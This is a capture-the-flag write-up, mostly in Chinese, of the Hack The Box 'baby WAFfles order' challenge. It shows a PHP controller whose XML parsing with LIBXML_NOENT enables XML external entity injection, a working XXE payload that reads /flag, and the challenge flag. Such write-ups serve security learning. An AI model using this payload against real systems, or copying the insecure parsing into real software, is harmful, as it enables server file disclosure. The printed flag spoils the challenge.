 # baby WAFfles order

:::note CHALLENGE DESCRIPTION

Difficulty: EASY

Our WAFfles and ice scream are out of this world, come to our online WAFfles house and check out our super secure ordering system API!

我们的华夫饼和冰淇淋简直美味到让人无法抗拒，快来我们的在线华夫饼屋，看看我们超级安全的订购系统API吧！

:::

直接访问

![img](img/image_20250333-223344.png)

同时，题目提供了环境源码

![img](img/image_20250348-224808.png)

在`controllers\OrderController.php`中，看到

```php
<?php
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            return json_encode([
                'status' => 'success',
                'message' => "Your {$order->food} order has been submitted successfully."
            ]);
        }
        else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
        else
        {
            return $router->abort(400);
        }
    }
}
```

很明显存在有XXE攻击漏洞，尝试进行攻击

![img](img/image_20250354-225445.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///flag">
]>
<order>
    <food>&xxe;</food>
</order>
```

即可得到最终的答案

```flag
HTB{wh0_l3t_th3_XX3_0ut??w00f..w00f..w00f..WAFfles!}
```

